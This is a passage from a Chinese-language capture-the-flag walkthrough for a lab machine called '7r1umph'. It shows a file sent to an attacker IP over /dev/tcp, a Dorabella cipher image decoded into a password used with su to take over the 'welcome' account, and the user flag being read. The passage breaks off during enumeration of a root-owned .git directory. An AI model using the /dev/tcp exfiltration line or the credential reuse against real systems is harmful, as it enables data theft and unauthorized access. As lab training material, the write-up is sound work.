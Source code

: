 **在靶机上发送:**

```bash
www-data@7r1umph:/opt$ cat yeyeye.png > /dev/tcp/192.168.205.128/4444
```

在Kali上查看图片 `yeyeye.png`:

![Dorabella Cipher 图片](https://cdn.jsdelivr.net/gh/7r1UMPH/7r1UMPH.github.io@main/static/image/20250412190141508.png)

通过图片内容和网络搜索 (Google识图等)，可以识别出这是一种名为 **Dorabella Cipher** 的密码。

参考在线资料（ 如提供的链接 https://geocachen.nl/geocaching/geocache-puzzels-oplossen/dorabella-cipher/ ）进行破译，得到密码：`yecongdong`。

使用这个密码尝试切换到 `welcome` 用户。

```bash
www-data@7r1umph:/opt$ su welcome
Password: yecongdong
$ id
uid=1000(welcome) gid=1000(welcome) groups=1000(welcome)
$ # 成功切换到 welcome 用户
```

(可选) 为了获得更好的交互体验，可以使用 `welcome:yecongdong` 通过SSH登录靶机。

### 4.3 获取 User Flag

在 `welcome` 用户家目录下查找 `user.txt`。

```bash
welcome@7r1umph:~$ pwd
/home/welcome
welcome@7r1umph:~$ ls -la
total 32
drwx------ 3 welcome welcome 4096 Apr 12 01:29 .
drwxr-xr-x 3 root    root    4096 Apr 11 22:27 ..
# ... 其他文件 ...
-rw-r--r-- 1 root    root      44 Apr 12 00:17 user.txt # 找到 user flag 文件
# ... 其他文件 ...
welcome@7r1umph:~$ cat user.txt
flag{user-d650b42437edc28dfd3637c4ccd445ec}
```

成功获取 `user.flag`。

### 4.4 本地枚举 (welcome)

继续在 `welcome` 用户下进行枚举，寻找提权至 `root` 的线索。发现在家目录下有一个 `RegView` 目录。

```bash
welcome@7r1umph:~$ cd RegView/
welcome@7r1umph:~/RegView$ ls -al
total 476
drwxr-xr-x 3 root    root      4096 Apr 12 01:32 .
drwx------ 3 welcome welcome   4096 Apr 12 01:29 ..
drwxr-xr-x 8 root    root      4096 Apr 12 01:33 .git   # 发现 .git 目录
# ... 其他文件 ...
-rwxr-xr-x 1 root    root      3911 Apr 12 01:02 RegView.sh
# ... 其他文件 ...
```
